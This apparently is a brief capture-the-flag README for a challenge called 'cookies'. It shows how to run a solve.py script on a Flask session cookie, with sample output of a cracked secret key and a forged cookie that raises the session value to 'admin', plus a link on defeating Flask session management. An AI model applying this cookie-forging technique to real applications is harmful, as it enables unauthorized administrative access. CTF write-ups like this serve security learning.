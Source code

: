 # cookies
the script is solve.py

command:

`python3 solve.py eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Zs6uDA.gz2Ajt_LrMWPPoYxmyiFJ5ahTts`

`python solve.py <cookie that was set by the server>`

like that...

output will be like;

Secret key: peanut butter
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Zs8iMA.FOkPNMGlGDsTY5Z3KTJmNZumCdk


link ref
# https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce
